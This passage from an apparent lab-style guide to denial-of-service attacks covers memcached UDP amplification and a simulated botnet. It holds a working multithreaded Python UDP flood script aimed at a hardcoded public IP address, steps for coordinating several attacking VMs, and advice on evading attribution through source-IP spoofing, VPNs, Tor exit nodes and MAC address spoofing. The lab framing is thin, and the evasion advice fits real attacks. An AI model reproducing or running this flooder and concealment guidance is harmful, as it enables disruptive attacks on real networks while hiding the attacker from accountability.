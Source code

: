 - **Anonymity**:

  - Spoof source IP to hide your real IP.
  - Route Scapy through a VPN:
    ```bash
    sudo openvpn --config vpn-config.ovpn
    ```

- **Lab Exercise**:

  1. Run the Scapy script.
  2. Use Wireshark on the target to capture large UDP responses:
     ```bash
     sudo wireshark -f "udp port 11211"
     ```

- **Effectiveness**: Extremely high due to massive amplification (small request → huge response).
- **Weakness Exploited**: Misconfigured servers allowing unauthenticated UDP queries.

### c. Botnet-Driven Attacks

- **Concept**: Use a network of compromised devices (botnets) to distribute and amplify DDoS attacks, simulating real-world scenarios like Mirai or Reaper.
- **Real-World Use**: Botnets like Mirai exploit IoT devices to launch massive attacks (e.g., 2016 DynDNS outage).
- **Lab Simulation**:
  - Create a mini-botnet using multiple VMs.
  - Coordinate attacks from each VM.
- **Tools**: Custom Python script to simulate botnet behavior.
  ```python
  import socket
  import random
  import threading
  target_ip = "185.67.12.66"
  target_port = 80
  def udp_flood():
      sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
      bytes = random._urandom(1490)
      while True:
          sock.sendto(bytes, (target_ip, target_port))
          print(f"Sent UDP packet from {threading.current_thread().name}")
  for i in range(5):  # Simulate 5 bots
      threading.Thread(target=udp_flood, name=f"Bot-{i}").start()
  ```
- **Setup**:
  1. Create 5 Kali VMs, each running the script.
  2. Use a central VM to coordinate (e.g., via SSH or a simple socket server).
- **Anonymity**:
  - Run each VM through a different VPN server or Tor exit node.
  - Spoof MAC addresses on each VM:
    ```bash
    sudo macchanger -r eth0
    ```
- **Lab Exercise**:
  1. Launch the script on all VMs.
  2. Monitor target with `htop` and `tcpdump` to see combined impact.
- **Effectiveness**: High. Distributed sources overwhelm basic defenses.
- **Weakness Exploited**: Target’s inability to filter traffic from multiple sources.
